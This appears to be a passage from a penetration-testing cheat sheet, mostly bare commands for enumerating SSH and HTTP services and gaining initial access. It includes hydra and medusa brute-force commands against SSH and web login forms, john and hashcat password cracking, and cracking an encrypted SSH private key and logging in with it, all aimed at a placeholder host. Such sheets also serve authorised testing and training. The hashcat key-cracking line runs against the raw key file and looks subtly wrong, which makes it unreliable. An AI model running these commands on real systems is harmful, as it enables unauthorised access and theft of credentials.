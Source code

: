 #### SSH (Port 22)
```bash
# Banner grab
nc target.com 22

# Brute force
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://target.com
```

#### HTTP/HTTPS (Port 80/443)
```bash
# Check robots.txt
curl http://target.com/robots.txt

# View source code
curl http://target.com

# Check headers
curl -I http://target.com

# Screenshot
eyewitness --web -f urls.txt
```

---

## Initial Access

### Password Attacks
```bash
# Hydra - HTTP POST form
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# Hydra - SSH
hydra -l root -P passwords.txt ssh://target.com

# Medusa - SSH
medusa -h target.com -u root -P passwords.txt -M ssh

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Hashcat
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

### SSH Key Cracking
```bash
# Convert encrypted SSH key to John format
ssh2john id_rsa > id_rsa.hash

# Crack with John
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash

# Crack with Hashcat
hashcat -m 22921 -a 0 id_rsa /usr/share/wordlists/rockyou.txt

# Use the key
ssh -i id_rsa user@target.com
```
